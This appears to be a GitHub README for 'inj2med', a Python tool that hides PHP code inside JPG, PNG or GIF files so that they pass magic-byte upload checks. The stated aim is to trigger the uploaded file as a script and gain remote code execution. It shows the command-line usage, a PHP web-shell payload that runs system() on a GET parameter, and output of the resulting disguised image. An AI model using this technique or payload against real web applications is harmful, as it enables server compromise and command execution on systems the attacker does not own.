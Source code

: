 ## What is inj2med ?
`Inj2med` is a little script to embed malicious piece of code into an image file like `jpeg/jpg`, `png` and `gif`.

An example use case is like - suppose you have a file upload functionality in a php web application. The backend is validating the file type based on `magic headers`. In such scenario, you can create a valid image file using magic bytes and then embed arbitrary php code into it. If you are able to trigger this file after uploading as a php script, you might be able to achieve RCE.

## How to use ?

```
$ python3 inj2med.py -h
usage: inj2med.py [-h] [-e EXTENSION] -p PAYLOAD [-f FILENAME]

optional arguments:
  -h, --help            show this help message and exit
  -e EXTENSION, --extension EXTENSION
                        specify the extenstion to use, must be jpg/png/gif
  -p PAYLOAD, --payload PAYLOAD
                        specify the payload to use, e.g. '<?php system($_GET['c']); ?>'
  -f FILENAME, --filename FILENAME
                        specify a filename to use
```

```
$ python3 inj2med.py -e jpg -p '<?php system($_GET["c"]); ?>'
File saved as UrDsOrcipQ.jpg.
```

```
$ file UrDsOrcipQ.jpg 
UrDsOrcipQ.jpg: JPEG image data
```

```
$ cat UrDsOrcipQ.jpg 
����<?php system($_GET["c"]); ?>
```

## Limitations 
It currently supports only `jpg`, `png` and `gif` files. In future, I will add more file types.

**NOTE** - I got this idea from a similar script called `inj2media`. But that script is not available anywhere now. So I decided to create my own script.

